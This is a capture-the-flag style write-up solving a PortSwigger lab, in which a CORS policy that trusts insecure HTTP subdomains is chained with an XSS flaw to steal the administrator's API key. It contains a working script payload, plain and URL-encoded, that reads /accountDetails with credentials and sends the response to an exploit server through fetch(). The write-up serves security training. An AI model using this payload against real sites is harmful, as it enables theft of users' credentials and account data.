 <div align='center'>

# **CORS**

</div>

## **Lab:** CORS vulnerability with trusted insecure protocols

**Goal:** Get the administrator's API key

**The lab provide:** A credential wiener:peter

**Solution:**

1.  Log in as wiener, we see our API key

![](./img/1.png)

View the page source, we see a new endpoint /accountDetails

![](./img/2.png)

Go to that endpoint, we see that the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![](./img/3.png)

If we set the Origin Header to the lab's URL, then it will added into the Access-Control-Allow-Origin respond header.

![](./img/4.png)

If we set the Origin Header to other URL, then it will not added into the Access-Control-Allow-Origin respond header.

![](./img/5.png)

However, the subdomain of the lab's URL and http protocol is accepted by the server.

![](./img/6.png)

![](./img/7.png)

2.  When we check stock, the new window pops up and perform a GET request to the HTTP server 'http://sock.YOUR-LAB-ID.web-security-academy.net/?productId=1'

![](./img/8.png)

Moreover, the productId parameter is vulnerable to XSS

![](./img/9.png)

3.  We will use this payload:

```html
<script>
    document.location = "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1<script>
        var xhr = new XMLHttpRequest();
        var url = 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails';
        xhr.onreadystatechange = function(){
            if (xhr.readyState == XMLHttpRequest.DONE){
                fetch('https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' + xhr.responseText);
            }
        };
        xhr.open('GET', url, true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>&storeId=1"
</script>
```

This payload will:
-   Send a GET request to the URL "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1". This will make the Origin request header in the next request
-   Send a GET request to the /accountDetails endpoint with the Origin header as the first URL
-   Send a GET request to the exploit server which will contains the respond from the /accountDetails endpoint in the parameter.

The request to the exploit server will be recorded in the access log

Therefore, if the payload is executed in someone's browser, the exploit server will have his/her's data.

URL encode the payload, we get

```html
<script>
    document.location = "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1<script>var xhr = new XMLHttpRequest();var url = 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails';xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE){fetch('https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' %2b xhr.responseText);}};xhr.open('GET', url, true);xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
</script>
```

Let upload this payload to the exploit server and deliver it to the victim, we get his/her API key

![](./img/10.png)

